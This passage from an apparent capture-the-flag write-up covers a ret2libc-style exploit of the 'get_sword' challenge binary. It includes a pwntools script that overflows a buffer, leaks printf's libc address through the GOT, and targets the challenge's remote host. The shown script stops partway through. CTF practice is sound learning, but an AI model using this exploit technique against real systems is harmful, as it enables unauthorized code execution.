 This is the modified script to leak addresses.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2dacbffb-3f06-48cb-809e-ea4387454bb1)

With this we will go to https://libc.rip/ to find the libc version

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/ee7b8170-7a09-4af0-9c67-60ce54041b8a)

We got a few matches. Now, we can download one of it and test it. Move the file into the same directory as your exploit script and add this line

```python
libc = ELF('./libc-2.38-4-x86.so')
```

Now, we are ready to test it on the remote server

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/a07ec6fc-b8eb-4fc8-9aff-ba678f51459f)

We have successfully spawned a shell on the remote server

## Full Script

```python
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./get_sword')
#libc = exe.libc
libc = ELF('./libc-2.38-4-x86.so')

host = "173.255.201.51"
port = 31337

gdb_script = '''

'''

offset = 32

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))

'''
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.fflush)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
```